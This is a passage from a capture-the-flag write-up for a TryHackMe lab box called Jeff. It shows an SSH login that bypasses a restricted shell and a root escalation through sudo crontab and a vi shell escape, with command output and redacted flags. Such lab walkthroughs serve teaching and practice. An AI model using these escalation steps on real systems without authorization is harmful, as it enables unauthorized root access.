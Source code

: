 2. SSH into `jeff` with `-t` option:
```
┌──(root💀nam)-[~/ctf/thm/ctf/Jeff]
└─# ssh jeff@$IP -t "bash --noprofile"
jeff@10.10.78.140's password: 
jeff@tryharder:~$ whoami
jeff
```

**user.txt:**
```
jeff@tryharder:~$ cat user.txt 
THM{Redacted}
```

> Note: MD5 hash it to get the real user flag.

## jeff to root:

By enumerating manually, we can see that `jeff` user can run `crontab` with sudo permission.

```
jeff@tryharder:~$ sudo -l
[sudo] password for jeff: 
Matching Defaults entries for jeff on tryharder:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jeff may run the following commands on tryharder:
    (ALL) /usr/bin/crontab
```

We can abuse crontab with sudo to escalate our privilege to root.

> GTFOBins: https://gtfobins.github.io/gtfobins/crontab/#sudo

```
jeff@tryharder:~$ sudo crontab -e
```

In the `vi` editor, we can use command mode to invoke a bash shell:

```
:!/bin/bash
```

# Rooted:

```
root@tryharder:/tmp# whoami; id
root
uid=0(root) gid=0(root) groups=0(root)
```

We're root now! :D

**root.txt:**
```
root@tryharder:~# cat /root/root.txt
THM{Redacted}

Congratz on completing my box. 
Sorry if you hated it, it was my first one :)
```

